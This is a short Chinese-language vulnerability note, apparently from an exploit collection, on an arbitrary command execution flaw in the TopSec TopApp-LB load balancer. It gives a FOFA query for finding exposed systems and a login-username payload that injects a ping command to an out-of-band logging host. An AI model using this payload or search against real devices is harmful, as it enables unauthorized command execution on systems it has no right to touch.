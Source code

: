 # 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 影响版本

```
天融信负载均衡TopApp-LB
```

## FOFA

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091921374.png)



成功收到请求



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091921379.png)